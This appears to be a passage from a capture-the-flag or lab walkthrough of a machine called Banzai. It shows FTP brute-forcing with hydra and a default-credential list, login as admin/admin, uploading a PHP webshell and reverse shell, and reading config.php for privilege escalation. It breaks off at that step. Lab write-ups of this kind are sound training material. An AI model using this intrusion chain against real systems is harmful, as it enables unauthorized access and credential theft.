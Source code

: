 ## Initial Foothold

FTP BruteForce:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.191.56 ftp</span>
</div>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(2).png)


><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">NOTE: make sure to connect as active mode (-A) because passive mode doesn't work</span>

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ftp -A 192.168.191.56</span>
</div>
User:admin
Pass:admin

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(3).png)

let's get a php webshell from [https://www.revshells.com/](https://www.revshells.com/)


ftp> put webshell.php


http://192.168.191.56:8295/webshell.php


![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(5).png)


![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(6).png)

Let's get a rev shell by uploading a shell.php

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(7).png)

http://192.168.191.56:8295/shell.php

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(8).png)

## Privilege Escalation 




<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/var/www$<span style="color:red"> cat config.php</span>
</div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(10).png)
